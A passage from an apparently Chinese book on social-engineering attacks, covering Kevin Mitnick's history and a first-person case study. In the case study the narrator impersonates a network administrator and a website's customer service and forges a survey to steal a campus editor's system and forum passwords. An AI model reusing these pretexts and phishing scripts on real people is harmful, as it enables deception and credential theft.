安全专家面对黑客攻击总是焦头烂额，不过不必担心，专家们仍会找出一套防御手段，而黑客们也会再次发动新一轮攻击，在不断的对抗过程中也提高了系统与数据的安全性。

社交工程也是一种黑客手段，只是更加难于防范，这是一种新的信息安全对抗领域，谁会是最终胜利者？这个答案我们无从知道。

黑客是华丽的，他们自由穿梭于虚拟网络空间，喜欢与每一种系统或是程序对抗，挖掘出它们的漏洞，学习其中的知识。同样，社会工程学师是浪漫的，他不需要知道你的名字，就可以滔滔不绝地说出你的真名、身份证号码，甚至你的信用卡存款。

本书介绍了信息窃取与破坏的社会工程学黑客伎俩，为的是减少你受信息伤害，并了解社会工程学师的伎俩，以使企业的信息安全得到保障。

### 1.2 凯文·米特尼克（Kevin Mitnick）简史

谁也不能忽略黑客时代的光辉历史——凯文·米特尼克。尽管 80 年代时仍有人不承认凯文·米特尼克是以真正的黑客技术侵入系统，他们认为凯文使用的是一种骗子伎俩，但不可预料的是，凯文的支持者多于反对者。时至几十年后，不论是我或是黑客爱好者都是他忠实的粉丝，我们乐于谈论他的历史。

今天，凯文仍然健在，那个黑客时代的神话影响着每个人。不可质疑，他推动了电脑的发展史，他告诉人们如何保护自己，以及如何保障系统与源代码的安全，他无愧于美国媒体给他的加冕——美国五大最危险的头号黑客之一——凯文·米特尼克。

#### 1.2.1 美国五大最危险的头号黑客之一

2007 年国外媒体评出美国五大最危险的头号黑客之一——凯文·米特尼克，他是成功利用社会工程学技术进行入侵计算机的黑客，见图 1。

凯文·米特尼克于 1964 年出生在美国西海岸的洛杉矶，在他只有 3 岁的时候，他的父母就离异了。20 世纪 70 年代，13 岁的他还在上小学时，就喜欢上了无线电技术。当与世界各地无线电爱好者联络的时候，他第一次领略到了跨越空间的乐趣。

两年后，年仅 15 岁的凯文闯入了“北美空中防务指挥系统”的计算机主机内，他翻遍了美国指向前苏联及其盟国的所有核弹头的数据资料，然后又悄无声息地溜了出来。接着他向朋友们吹嘘：“我知道美国所有指向太空、指向俄国及其盟友的核导弹的名称、数量和位置！”在当时他的话没有人相信。

这件事对美国军方来说是一大丑闻，五角大楼对此一直保持沉默。事后，美国著名的军事情报专家克赖顿曾说：“如果当时凯文将这些情报卖给克格勃，那么他至少可以得到 50 万美元的酬金，而美国则需花费数十亿美元来重新部署。”（好莱坞曾以此为蓝本，拍摄了电影《战争游戏》）

接着，他又侵入美国著名的“太平洋电话公司”，更改了数据库中的数据，如用户的电话号码与通信地址；一时间，这些用户被折腾得哭笑不得，太平洋公司也不得不连连道歉。公司一开始以为是电脑出了故障，经反复检测，发现电脑软硬件均完好无损，才意识到被入侵。

有一天，凯文进入联邦调查局系统，发现 FBI 特工们正在调查一名“电脑黑客”，让他大吃一惊的是：被调查者竟然是他自己！凯文不屑，他嘲笑这些特工人员漫无边际的搜索，并恶作剧式地将几个负责调查的特工的档案调出，将他们全都篡改成了“在逃罪犯”。

由于搭档苏珊的告密，凯文与同伙罗斯科被抓获。被捕的原因不是在租赁公司的电脑上捣乱，而是夜闯太平洋贝尔公司的电脑操作中心。该事件性质并不大，很快就被保释出来了。

1982 年 6 月，苏珊收集证据并发告凯文与罗斯科一年前美国租赁公司侵入案和 COSMOS 盗窃案。罗斯科被判有期徒刑 150 天，缓期 30 天。凯文则在青少年法庭对他进行了一番心理诊断研究后，被判 1 年缓刑。凯文在加州一家青少年监狱中服刑 6 个月，他是 450 名犯人中唯一的电脑罪犯，他于 1983 年底出狱。

1988 年他再次被执法当局逮捕，这次的原因是，DEC 指控他从公司网络上窃取了价值 100 万美元的 VMS 软件并造成了 400 万美元损失。这次，他甚至未被允许保释。心有余悸的警察当局认为，他只要拥有键盘就会对社区构成威胁。

#### 1.2.2 电脑化空间的头号通缉犯

由于没有证据表明凯文·米特尼克打算出售 VMS 软件，凯文只被判处一年徒刑；出狱后，他试图找一份安定的工作。然而，联邦政府认为他是对社会的一个威胁，他受到严密监视。FBI 警告任何雇佣凯文的雇主，这使凯文一个工作也找不到，在一定意义上剥夺了凯文弃恶从善的可能。

1993 年，心理极不踏实的联邦调查局收买了一个黑客埃里克，诱使凯文重操故技，以便再次把他抓进监狱。糟糕的是，这个计划让凯文利用社工调查技术发现了，他顺手窃取 SAS（交换和访问系统），过程很简单，就是利用社会工程学拨打电话到太平洋贝尔公司，追踪到了 SAS 的作者，并冒称太平洋贝尔公司的工程师，从设计 SAS 的工程师手中窃取了 SAS 窃听系统的蓝图和协议规范，这使得他可以任意窃听每个人拨打电话的内容。

这让联邦调查局很恼火，他们没想到凯文在三周内窃取了 SAS 窃听系统，并学会了如何使用。当 FBI 找到凯文的住所时，在楼下拨打电话也被楼上的凯文用 SAS 窃听到了电话内容。他们进入了凯文的房间后翻了个底朝天也没找到可以抓获凯文的证据。等 FBI 走后，凯文开始了他的亡命生涯。

圣迭戈超级计算机中心的数据被窃，这惹恼了日裔计算机专家下村勤，因为其中有他的数据。紧接着下村接到夸伯尔的电话，声称他的 W.E.T.T. 电脑有圣迭戈的计算机数据；下村在凯文留下的数据中找到一家网络供应商——Netcom。其客户资料库中有上万条客户记录和信用卡号码，他们认为 Netcom 是追踪凯文的好地方。后来协调整个调查的旧金山助理检察官肯特·沃克说：“据信，他窥视了 Netcom 数以 10 亿美元计的商业秘密；他是一个巨大的威胁。”斯普林特公司的技术人员检查了拨号进入 Netcom 的电话，发现入侵者来自北卡罗来纳州的罗利。下村随即飞往罗利，他和斯普林特的人员一直追到了“玩家俱乐部”，在 2 月 14 日深夜，FBI 逮捕了凯文。

1997 年 12 月 8 日，世界各地支持凯文的黑客们要求美国政府释放凯文。他们宣称，如果要求得不到满足，他们将启动已经通过网络植入世界许多电脑中的病毒，令网络瞬间瘫痪。如果凯文获释，他们将提供病毒的破解法。黑客们甚至专门建立了一个叫“释放米特尼克”的网站 www.kevinmitnick.com，为他的释放作倒计时。

2001 年 1 月，凯文在承认自己曾犯有电话窃听和利用计算机欺诈、非法窃取计算机网络资料的罪行后，获得了监视性释放。且获释后必须遵守：不准触摸计算机、手机以及其他任何可以上网的装置；必须待在加州中部，不准到其他地方旅行；至少在 7 年时间里不准谈论黑客技术；不能讲述从黑客经历中获得的任何好处。

米特尼克出狱后，正逢 2000 年地球黑客（简称 H2K）大会召开。尽管他本人并没能亲临大会现场，但他仍然在洛杉矶发表了电话讲话，无数的黑客和激进分子将两间会议厅挤得水泄不通。政府官员在越来越严重的网络安全面前，不得不请出米特尼克，希望他提供黑客攻击电脑网络的内幕信息，以提高政府电脑网络的抗黑客攻击能力。

> 现在米特尼克已经向政府保证改邪归正，不过他的传奇经历，已令他成为迄今为止黑客史上最出色的计算机高手。正如一位办案人员在评价米特尼克时所说的：“电脑与他的灵魂之间似乎有一条脐带相连。这就是为什么只要他在计算机面前，他就会成为巨人的原因。”

根据凯文·米特尼克撰写的社会工程学攻击一书《欺骗的艺术》描述，我总结为：简单说，社会工程学是利用人的心理弱点（如人的本能反应、好奇心、信任、贪婪）、规章与制度的漏洞等进行诸如欺骗、伪装等手段，以期获得所需的信息（如计算机口令、银行账户信息）。

自 2007 年来，《黑客手册》安全杂志陆续出现相关社会工程学攻击文章，其他安全杂志也相继刊载社会工程学攻击，这能反映出黑客攻击从传统系统入侵与脚本攻击的热潮渐退，社会工程学攻击越来越受黑客们的注意。

对于大多数的典型入侵手段，安全厂商们在不断提供完备的解决方案，使得不再有 2006 年脚本攻击与木马传播泛滥时的辉煌，脚本小子们在堡垒式的服务器上四处徘徊，费尽心思在代码的逻辑漏洞上焦头烂额。微软新的 Vista 系统提供了完备的权限控制，虽然其他应用软件漏洞不断，却难有横披一时的疯狂。

显然，社会工程学攻击，让大多数的黑客看到曙光，通过信息搜集与拨打电话式的社交，直接索取密码，使得入侵渗透更加容易。

### 1.3.1 狭义与广义的社会工程学

不论在网络上还是某些资料上，我总能看到有人用粗糙的文字与看法描述社会工程学，

## 第一章 黑客时代的神话

### 黑客社会工程学攻击

他们还洋洋自得地夸耀这是一次成功的“社会工程学”入侵经历。为此，我得为他们纠正，我可不想让这帮家伙们混淆视听；如果凯文·米特尼克听到某人说用搜索引擎搜到一个密码登录QQ，会让他笑掉大牙。

如何区别狭义与广义的社会工程学？你可以参考图2，这可以使你了解到某个伪社会工程学师在玩“一个人的游戏”。

|  | 是否有计划、针对性获取信息？ | 只是单纯通过网络搜索信息？ | 是否需要知道相关术语信息？ |
|---|---|---|---|
| 狭义工程学 | 否 | 是 | 否 |
| 广义工程学 | 是 | 否 | 是 |

图2

狭义与广义社会工程学最明显的区别是会与受害者进行交互式行为，比如，你会设置一个陷阱使对方掉入，或是你会伪造一封来自内部的虚假电子邮件，或者你会利用相关通讯工具与他们交流获取敏感信息。

例如在一个获取口令的行为上，真正的社会工程学师只要简单拨打管理员的电话，谎称机器故障便获得口令了，而不是伪社会工程学师一开始就穷举破解与碰运气（暴力破解需要建立在获得充足信息的基础上）。

切记，广义的社会工程学师不是乱去下载网站与论坛的数据库碰运气，而是清楚地了解你需要什么样的信息，并且应该怎样去做，从收集的信息中知道应该与哪个关键人物谈话。这样，你会需要与受害者进行互动行为，否则，那不可能称之为社会工程学，而是自己一个人在“瞎捣鼓”。

### 1.3.2 无法忽视的非传统信息安全

为什么说社会工程学是非传统的信息安全？很简单，它不是利用系统漏洞入侵，而是利用人为性的漏洞入侵。

你可以买大量的物理设备，比如硬件防火墙、入侵监测系统（IDS）、虚拟专用网络，亦或者是安全软件产品，但这能保障安全吗？不能！社会工程学师只需拨打一个电话，使用专业的术语，报出内部人员使用的ID，让一个系统管理员登录系统，并将其传真过来便可搞定。

> 国防大学卢凡博士所说的话：“它（社会工程学攻击）并不能等同于一般的欺骗手法，社会工程学尤其复杂，即使自认为最警惕、最小心的人，一样会受到高明的社会工程学手段的损害。因为社会工程学主导着非传统信息安全，所以通过对它的研究可以提高应对非传统信息安全事件的能力。”

实际上，我们身边也有一本关于社会工程学中对“欺骗”进行“描述”的书，那就是中华民族悠久文化遗产之一——《三十六计》谋计篇。留心观察你就会发现，《三十六计》全文贯穿于“欺骗”二字；我绝非拿“三十六计”说事，这是人人都知道的事。如“以少胜多”便是使用了心理学暗示策略；又如“借刀杀人”使用了智谋窃取数据，如你有兴趣，大可一读。

社会工程学无处不在，当你仔细留意就会发现它的影子，比如商业交易、谈判、司法等。其实在生活中我们也在无意中使用，只是浑然不觉而已。比如当遇到问题时，我们很容易知道应该寻找有决定权的人来解决，并让周遭的人帮助解决。社会工程学是一把双刃剑，有好的一面，同时也有坏的一面，全看你如何把握。

### 1.3.3 攻击信息拥有者

更直接地说，信息拥有者是无价的信息宝藏！你大可不必因为一个口令而把大量精力花费在系统入侵与破解上，直接地攻击信息拥有者可避免一些不该发生的事，比如口令变更、系统补丁升级等。更受人欢迎的理由是，人类比计算机更容易攻破，社会工程学师可以利用心理学知识搜寻到人类的一个脆弱点来窃取信息。

黑客技术熟练的攻击者往往缺乏人际交往的知识经验与技巧，但新兴潮流的社会工程学攻击将会打破这种格局。他们会开始用大量的时间研究非传统信息安全，庞大的商业价值是吸引他们的条件。他们非常喜欢这种有效的信息入侵，特别是诱惑电话那头的信息拥有者亲口说出他计算机的登录口令。

这种攻击方式受欢迎还有另外一个原因，那就是中国企业盲目追求商业利益最大化，他们不注重建立企业品牌，忽略对员工进行安全培训投资。企业内糟糕的管理与严格的压榨暴露出严重的弱点，宽松的法律带来广阔的攻击空间。企业内部员工毫无任何价值观念，他们会接受问答而说出不应对外公开的信息。显然，没有安全威胁意识的企业会在这个问题上栽一个大跟头。

不管如何，人员安全在新世纪的高科技社会中将是一个深入讨论的话题。现阶段来说，攻击人员是系统无法忽视的脆弱点。

### 1.4 第一个案例：编辑部内部事件

你不妨当作一个故事看下去，这是较早时期的社会工程学攻击。整个渗透以“我”作为主角叙述入侵过程，目标是校园编辑部负责人杨丽之（虚构）。在最后，“我”仅仅通过她的名字，便轻松获取了她的工作经历、手机号码、毕业院校、身份证号码、博客密码、系统口令……

#### 1.4.1 巧妙地利用手机收集信息

听同学说，校报编辑换了一个负责人杨丽之。这本来并没有什么好在意的，但之前与原来负责人关系很不错，很好奇新的负责人究竟是怎样的人，于是开始做一番信息调查。大概认为，这将是认识新朋友的开端。

但现在仅有的线索就只是一个名字，我需要她的个人联系方式，这难不倒我。全校为了统一管理，将不同专业的教师与相关部门负责人的联系方式整理成联系表，这个表格只有在校园的相关部门才有；比如学生科、教务科、门卫处、后勤科等等，用以确认身份。我的想法是需要这样的一份表格，于是打算从门卫处着手。

在晚上七点左右，趁着夜色我拿着一本书到门卫处，里面就两个老人值班，一个叫蒋国（虚构的，以下简称蒋）的在门旁翻看报纸，另一个戴着帽子（李民，以下简称李）正坐在办公桌旁烤火。他们的名字我是了解的，不需要去询问，因为我曾看到经常来门卫处取信的学生都会直呼他们的名字。以下是我们的对话整理摘录：

> 蒋看到我走来了，询问我：“你是校外生吗？”

我回答：“嗯。”

蒋：“你有什么事吗？”

（他看到我没有走的意思，这时我看到办公桌上的玻璃下正压着全校教师及相关负责人的联系表格。）

我：“这样的，我借了老师一本书，他让我今天还给他，但我不知道他在教师楼哪一楼，我也没有电话号码。”

（我把书给他看，一边说：“这是一本编程的书。”）

正在烤火的李民说：“哦！你来办公桌看看。”

我：“嗯，谢谢。”

我高兴地走到办公桌前，拿起拍照手机偷偷地全部拍下，如图3所示。



图3

#### 1.4.2 冒认身份获取系统口令

现在我已经获取杨丽芝的手机号码了，很显然，我可以施展社交工程获取想知道的信息，但我不打算这么干。很幸运地看到一期校报，校报顶上正好标有负责人的QQ邮箱地址，如图4所示。我们知道，一般来说，QQ邮箱前的名称也就是QQ联系号码了。这时你是否感觉先前弄到联系表格的行动多此一举？不，精彩的还在后面。

一位新的负责人来到新的环境，肯定对一些事情并不熟悉。我在腾讯网站注册了一个新的QQ号码，并使用TM聊天登录（QQ的办公用户使用的，不能查到在线等级），接着再将QQ昵称改为“谢卫强”，这位谢卫强是负责校园网络中心管理的。我加她为好友时，需要信息验证，自然输入“网络中心谢卫强老师”，不到几秒，很顺利通过身份验证，如图5所示。





图4

图5

为免遭怀疑，我报出了伪造身份，接着通过简单的信息提问，发现她对电脑常识了解不是很多，于是编造了一个不存在的“网络中心安全指纹验证”话题，从聊天中很顺利地获得了她的操作系统口令。口令很简单，她以自己的姓名拼音进行设置，如图6、图7所示。

现在明白前面我所弄到的联系表格所发挥的绝妙作用了吧？实际上我与她也同在一个内网之中，只是不在同一IP段，这不用担心，我早已控制了网络中心的服务器，但我仍然不打算直接侵入她的计算机，只想通过社工获取更多的信息。





#### 1.4.3 伪造调查文件，设置陷阱

接着我将她的QQ拖入黑名单，并丢弃这个新注册的QQ，再用自己的QQ登录，使用QQ查找功能查找她的QQ用户信息，在地址栏看到一段网址，是一个结婚网站的分站论坛，如图8所示。打开论坛后，发现她在那个论坛担任版主，在不断翻看帖子过程中我想出了一个新的窃盗方法。



为什么要换一个方法？我发现之前的口令无法登录她的QQ与论坛，现在我需要窃取她的论坛密码。我先伪造一份调查文档《中国结婚网优秀版主报名评选单》，在文档的论坛信息一项中，我强调需要给出论坛密码，而且文档中的图片使用结婚网官方网站的，使其可信度更高些，最终的伪造效果如图9所示。

伪造好调查文档之后，我需要的就是她的调查结果了。同样，我再次注册了一个新的QQ并加她为好友，冒称的用户是结婚网客服。这次没有身份验证，然后与她交谈时，她并没有反应，难道她怀疑了吗？不是，这个时候是她的下班时间，所以得等到第二天了，如图10所示。

### 黑客社会工程骗术故事

一大早起来时，发现她正好在线，我冒称是结婚网客服，开始了一场轻松的交谈。先告诉她结婚网正在举办评选优秀版主的活动以推动结婚网站的发展，并说明新浪网站会对这一事件进行报道。为了更加真实，还说了评选要求：一是文学美文，二是真实照片，获奖者能获得精美的礼物。很显然，她动心了，并告诉我，她现在是一个“月光族”，急需用钱。很简单，我告诉她可以汇钱过去，如图11、图12所示。



| 发信人 | 日期 | 时间 | 内容 |
|---|---|---|---|
| 总结婚网客服 | 2007-03-15 | 13:37:25 | 你好，我是中国结婚网客服 |
| 总结婚网客服 | 2007-03-15 | 13:38:17 | [表情] 恭喜你…… |
| 总结婚网客服 | 2007-03-15 | 13:39:01 | 请问是否报名中国结婚网优秀版主？？填写报名格式有礼物… |

| 发言者 | 日期时间 | 内容 |
|---|---|---|
| 总结婚网客服 | 2007-03-16 09:45:43 起 | 聊天记录（节选） |
| ... | ... | ... |

| 发言者 | 日期时间 | 内容 |
|---|---|---|
| 总结婚网客服 | 2007-03-16 10:01:54 起 | 聊天记录（节选） |
| ... | ... | ... |

我可不想事情那么简单，接着告诉她需要填写一张调查表格。当她将相关文件发给我时，突然间问我是怎么知道她的QQ号码的，当然，我又编出了一个“数据库中存在版主记录”的借口，并且很容易弄到了她的论坛密码，如图13、图14所示。

这次运气不错，她发回来的调查表格中的论坛密码几乎是通用的。同样，在fhod的社工案例（一个密码引发的“血案”）中也是由于密码的通用所导致的安全问题。（注：本文经过二次删改，以增强可读性。）

